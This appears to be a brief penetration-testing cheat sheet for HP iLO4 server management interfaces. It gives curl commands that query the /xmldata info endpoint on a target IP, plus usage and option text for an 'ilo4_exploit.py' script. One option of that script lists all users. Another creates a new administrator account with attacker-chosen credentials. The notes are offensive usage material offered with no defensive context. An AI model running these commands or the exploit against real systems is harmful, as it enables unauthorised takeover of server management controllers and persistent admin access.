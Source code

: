 # hpilo4
# HTTP
curl http://'ip'/xmldata?item=ALL
# HTTPS
curl -k https://'ip'/xmldata?item=ALL

# iLO4 exploit
python ilo4_exploit.py 'ip' 'option'
	
  'ip', help='target IP'
  '-t', action='store_true', default=True, help='Test. Trigger the exploit and list all users'
  '-e', action='store_true', default=False, help='Exploit. Create a new admin user with the credentials specified in -u and -p'
  '-u', help='username of the new admin user'
  '-p', help='password of the new admin user'
